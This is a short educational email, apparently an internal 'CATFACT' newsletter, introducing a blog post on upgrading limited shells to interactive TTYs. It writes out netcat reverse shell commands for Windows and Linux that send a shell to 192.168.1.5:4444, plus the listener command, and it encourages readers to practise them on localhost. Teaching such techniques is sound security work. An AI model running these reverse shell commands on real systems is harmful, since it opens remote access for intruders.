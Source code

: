 ```yaml
---
layout: email
title: Upgrading simple shells to fully interactive TTYs
---
```


A technical CATFACT for your Monday morning. This one is about converting limited shells to interactive ones: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

Those of you who have done some pentesting will be familiar with some of these tricks. I hadn’t seen the “stty” method-it’s really neat and I need to try it.

### Background
For those who aren’t familiar with the terminology, a “limited shell” is what you get if you send a shell prompt (like cmd.exe, or bash) over a TCP connection using something like netcat.
 
For example, to send a reverse shell to the IP address “192.168.1.5” and port “4444” using netcat on Windows or Linux:

**Windows:**  
`> nc -e cmd.exe 192.168.1.5 4444`

**Linux:**  
`$ nc -e /bin/bash 192.168.1.5 4444`

**On the receiver at 192.168.1.5 (“catching the shell”):**

`$ nc -lvp 4444`

Try it yourself - if you have access to a Linux system, you can send shells to “localhost” and catch them with netcat (you’ll need the ‘netcat-traditional’ variant for the `-e` flag). It’s a useful thing to practice with, as this is the basic level of access an unsophisticated attacker is looking for when they compromise a system. 

Note that if you’re going to test this on a Windows, netcat itself might get flagged as malicious by some antivirus products.